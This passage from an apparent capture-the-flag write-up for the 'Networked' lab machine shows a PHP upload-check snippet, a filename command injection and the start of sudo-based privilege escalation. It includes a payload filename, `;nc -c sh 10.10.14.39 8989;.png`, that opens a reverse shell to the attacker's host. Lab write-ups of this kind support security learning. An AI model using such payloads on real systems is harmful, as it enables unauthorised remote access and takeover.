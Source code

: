 ```php
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}
```

- if `$msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";` if filename is not a valid ip address, rather than a command -> **command injection**
- getnameCheck functions shows that the filename needs a ext flag like **.png**

- exp: `;nc -c sh 10.10.14.39 8989;.png`

![image-20231228173828635](./Networked.assets/image-20231228173828635.png)

![image-20231228173831897](./Networked.assets/image-20231228173831897.png)

### guly -> root

- enum: `sudo -l`
- `/sbin/ifup guly0` will init a network interface guly0

```sh
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
```